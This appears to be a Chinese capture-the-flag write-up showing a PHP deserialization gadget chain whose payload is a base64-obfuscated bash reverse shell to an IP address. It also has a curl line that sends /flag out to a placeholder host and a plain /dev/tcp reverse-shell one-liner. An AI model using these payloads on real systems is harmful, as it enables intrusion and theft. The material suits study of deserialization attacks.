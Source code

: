 ```php
class d {
    public function __invoke()
    {
        a::$Do_u_like_AFKL = true;
        return "关注嘉然," . $this->value;
    }
}

class e {
    public function __destruct()
    {
        if (a::$Do_u_like_JiaRan) {
            $this->afkl();    //这个地方要将前面的括号去掉，否则在windows下跑不出来
        } else {
            throw new Error("Noooooooooooooooooooooooooooo!!!!!!!!!!!!!!!!");
        }
    }
}
$c = new c;
$e = new e;
$d = new d;
$b = new b;

$b->i_want_2_listen_2_MaoZhongDu="bash -c '{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC80Mi4xOTMuMTcwLjxMDAwMCAwPiYx}|{base64,-d}|{bash,-i}'";    //服务器开启监听
$d->value = $b;
$e->afkl = $d;
$c->aaa = $e;
echo base64_encode(serialize($c));
```

其中对b参数赋值

```
这个也可以 curl http://xxx?c=$(cat /flag) --还是监听端口
但是"bash -c 'bash -i >& /dev/tcp/ip/port 0>&1\'
```

在反弹shell时虽然能正常交互，但服务器会报

```
sh: cannot set terminal process group (-1): Inappropriate ioctl for device
sh: no job control in this shell
```

可能原因

```
That error message likely means shell is probably calling tcsetpgrp() and getting back errno=ENOTTY. That can happen if the shell process does not have a controlling terminal. The kernel doesn't set that up before running init on /dev/console.
The solution: use a real terminal device like /dev/tty0.

```

